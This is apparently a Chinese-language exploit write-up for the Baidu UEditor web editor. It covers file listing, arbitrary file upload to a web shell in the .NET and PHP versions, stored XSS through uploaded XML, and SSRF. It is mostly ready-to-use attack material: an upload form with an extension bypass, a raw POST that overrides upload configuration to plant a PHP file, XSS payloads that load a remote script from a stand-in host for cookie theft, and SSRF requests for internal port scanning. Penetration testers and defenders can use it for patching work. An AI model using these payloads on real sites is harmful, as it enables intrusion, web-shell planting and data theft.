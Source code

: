 # Ueditor编辑器漏洞总结

# Ueditor编辑器漏洞总结

## 漏洞描述

UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。

界面如下：

![ueditor-1](images/ueditor-1.webp)

## 漏洞复现

### 0x01 文件读取漏洞

file 目录文件读取：

```
http://www.xxxx.com/net/controller.ashx?action=listfile
```

image 目录文件读取：

```
http://www.xxxx.com/ueditor/net/controller.ashx?action=listimage
```

### 0x02 .net版本 任意文件上传

只适用于 .net 版本，存在于`1.4.3.3`、`1.5.0`和`1.3.6`版本中。

准备一台服务区存放图片马或者需要上传的文件，本地构造一个 `html` 页面用于上传使用

```html
<form action="http://www.xxxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">

    <p>shell addr: <input type="text" name="source[]" /></p>

    <input type="submit" value="Submit" />

</form>
```

![ueditor-2](images/ueditor-2.webp)

- `shell addr` 处填写服务器上图片码地址，构造成以下格式，绕过上传使其解析为 `aspx`

```
http://xxxx/1.gif?.aspx
```

- 成功上传返回上传路径，可直连 getshell

![ueditor-3](images/ueditor-3.webp)



### 0x03 php版本文件上传

poc：

```
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream
<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
```

### 0x03 存储型xss

```
<html>

<head></head>

<body>
    <something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>

</html>

盲打 Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

上传点：

```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

将`uploadimage`类型改为`uploadfile`，修改文件后缀名为`.xml`：

![ueditor-4](images/ueditor-4.webp)

上传成功，访问成功弹框：

![ueditor-5](images/ueditor-5.webp)

#### 一些常见的xml弹窗poc

弹窗xss：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>
```

url跳转：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
```

远程加载js：

```
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
```

### 0x04 ssrf

该漏洞存在于`1.4.3`的`jsp版本`中，`1.4.3.1`版本已经修复。

该版本ueditor的ssrf触发点：

```php
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

使用百度logo构造poc：

```
http://xxx/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```

内网端口探测：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

判断该地址对应的主机端口是否开放：

- 如果抓取不存在的图片地址时，页面返回如下，即state为"远程连接出错"。

```
{"state": "SUCCESS", list:[{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

- 如果成功抓取到图片，页面返回如下，即state为"SUCCESS"。

```
{"state": "SUCCESS", list: [{"state":"SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

- 如果主机无法访问，页面返回如下，即state为"抓取远程图片失败"。

```
{"state":"SUCCESS", list: [{"state":"\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}
```

还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2。poc：

```
POST http://xxx/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive

upfile=https://www.google.com/?%23.jpg
```



